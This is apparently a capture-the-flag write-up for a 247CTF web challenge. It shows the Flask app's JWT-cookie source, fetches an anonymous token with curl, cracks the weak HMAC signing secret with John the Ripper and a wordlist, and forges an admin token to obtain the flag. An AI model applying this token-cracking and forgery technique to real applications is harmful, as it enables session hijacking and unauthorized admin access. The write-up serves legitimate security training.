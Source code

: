 Source Code:

```
from flask import Flask, redirect, url_for, make_response, render_template, flash
from flask_jwt_extended import JWTManager, create_access_token, jwt_optional, get_jwt_identity
from secret import secret, admin_flag, jwt_secret

app = Flask(__name__)
cookie = "access_token_cookie"

app.config['SECRET_KEY'] = secret
app.config['JWT_SECRET_KEY'] = jwt_secret
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['DEBUG'] = False

jwt = JWTManager(app)

def redirect_to_flag(msg):
    flash('%s' % msg, 'danger')
    return redirect(url_for('flag', _external=True))

@jwt.expired_token_loader
def my_expired_token_callback():
    return redirect_to_flag('Token expired')

@jwt.invalid_token_loader
def my_invalid_token_callback(callback):
    return redirect_to_flag(callback)

@jwt_optional
def get_flag():
    if get_jwt_identity() == 'admin':
        return admin_flag

@app.route('/flag')
def flag():
    response = make_response(render_template('main.html', flag=get_flag()))
    response.set_cookie(cookie, create_access_token(identity='anonymous'))
    return response

@app.route('/')
def source():
    return "

%s

" % open(__file__).read()

if __name__ == "__main__":
    app.run()
```

looks like so authentication via JWT(json web token)

when access to "/flag" got the token of "anonymous"
however need the admin's token for flag...


step1: get the token

```
->$ curl -c - https://d50f43f4580f3280.247ctf.com/flag | grep access_token_cookie
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   863  100   863    0     0    706      0  0:00:01  0:00:01 --:--:--   706
d50f43f4580f3280.247ctf.com	FALSE	/	FALSE	0	access_token_cookieeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjc3JmIjoiNGQwMTM4OGQtMjYxMy00ZWIwLThhNGUtYWE3ZjgzMDk2NDM1IiwianRpIjoiZTg2MTc1OGItNmVkMi00ZGM5LTg5OGItZmE1ZDRmN2YxODc4IiwiZXhwIjoxNjY5NjEyOTk2LCJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2OTYxMjA5NiwidHlwZSI6ImFjY2VzcyIsIm5iZiI6MTY2OTYxMjA5NiwiaWRlbnRpdHkiOiJhbm9ueW1vdXMifQ.y3OP7Q_--BwMApgg7sV4E2Ud-UrXCqUriMvXbg9GmNA
```
save the jwt to text_file: jwt.txt


step2: crack with john

```
->$ john jwt.txt --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wepwn247         (?)     
1g 0:00:00:01 DONE (2022-11-28 04:58) 0.6666g/s 1856Kp/s 1856Kc/s 1856KC/s wermer7..wendy.jja9363
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
we found the key


step3: change the username 

![image](https://user-images.githubusercontent.com/75846902/204198124-7d7e96e9-16f3-47c9-b28e-4e86e02bc994.png)

![image](https://user-images.githubusercontent.com/75846902/204198198-ec27c22d-ad4e-4a24-b530-f903e1e85efb.png)

![image](https://user-images.githubusercontent.com/75846902/204199055-a869f315-c70a-452a-b587-df20fdec9cfd.png)


step4: set the new jwt 

![image](https://user-images.githubusercontent.com/75846902/204199274-9dbdd58b-4c6e-4c64-9ce9-cdd4dd62dd31.png)

kaboom

![image](https://user-images.githubusercontent.com/75846902/204200827-4591200d-1f6c-46c2-8ccc-a303c89b44ac.png)











